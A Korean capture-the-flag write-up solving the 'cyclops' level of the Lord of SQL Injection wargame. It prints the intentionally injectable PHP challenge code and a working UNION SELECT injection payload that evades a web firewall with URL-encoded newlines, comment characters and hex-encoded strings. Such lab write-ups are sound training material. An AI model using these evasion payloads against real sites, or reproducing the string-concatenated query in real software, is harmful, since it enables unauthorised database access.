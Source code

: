 ```yaml
---
title: "[Lord of SQL Injection] LoS - cyclops 문제풀이"
date: 2019-06-17
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


드디어 첫 번째 문제 업데이트의 마지막 문제인 `cyclops` 이다.
이번 문제는 단순히 `admin`으로 로그인을 하는 문제가 아니었다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id,pw from prob_cyclops where id='' and pw=''
-----------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```

이번에는 `id`가 `first`, `pw`가 `second`여야 한다.
주석에 `must use union select`라고 적혀있는 것으로 보아 `union select 'first', 'second'` 같은 형태로 만들면 될 것 같다.
그래서 일단 아래처럼 시도 해 보았다.  

```plain
?id=1' union select 'first', 'second'#&pw=a
```

그럼 완성되는 쿼리는 아래와 같을 것이다.  

```mysql
select id,pw from prob_cyclops where id='1' union select 'first', 'second'#' and pw='a'
```

`'and pw='a'`는 주석처리 되어 실행되지 않기 때문에 결과적으로 `union select 'first', 'second`만 실행되며 `fist`, `second`만 추출 될 것이라고 생각했다.
그런데 저렇게 값을 넣으니까 방화벽에 잡혔다 ㅠㅠ
그렇게 호락호락한 문제가 아니었다 ㅠㅠ

그 뒤로 이것저것 시도 해 보다가 `개행 문자(%0a%0d)`를 넣어주면 방화벽에 잡히지 않는다는 것을 찾을 수 있었다.
또한 `select 'first', 'second'` 처럼 썼더니 또 방화벽에 걸려서 `select 0x6669727374, 0x7365636f6e64''`를 사용했다.
`0x6669727374`는 `first`이고, `0x7365636f6e64`는 `second`이며 뒤의 `''`는 아무 출력도 하지 않을 것이다.
최종적으로 입력한 값은 아래와 같다.  

```plain
?id=1'%23&pw=%0a%0dunion %23%0a%0ddistinct select 0x6669727374, 0x7365636f6e64''%23
```

`%23(#)`과 `%0a%0d(개행문자)`는 그래도 `URL Encoding` 해서 넘겨주었다.
그러면 완성되는 쿼리는 아래와 같다.  

```mysql
select id,pw from prob_cyclops where id='1'#' and pw=' 
union # 
distinct select 0x6669727374, 0x7365636f6e64''#'
```

첫 줄의 `id='1'#' and pw='`에서 `id='1'` 뒤의 값은 `#` 때문에 주석처리 된다.
개행 된 쿼리를 보고싶다면, 개행문자를 입력한 후 `Ctrl + u`를 통해 `소스보기`를 하면 아래와 같이 확인할 수 있다.  

```html
<hr>query : <strong>select id,pw from prob_cyclops where id='1'#' and pw='

union #

distinct select 0x6669727374, 0x7365636f6e64''#'</strong><hr>
```

어쨌든 이를 통해 문제를 풀 수 있었다.  

```php
---------------------------------------------------------------------------------------------------------------------------------
query : select id,pw from prob_cyclops where id='1'#' and pw=' union # distinct select 0x6669727374, 0x7365636f6e64''#'
---------------------------------------------------------------------------------------------------------------------------------

CYCLOPS Clear!
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_cyclops where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['id'] === "first") && ($result['pw'] === "second")) solve("cyclops");//must use union select
  highlight_file(__FILE__);
?>
```

---

```plain
CYCLOPS Clear!!
```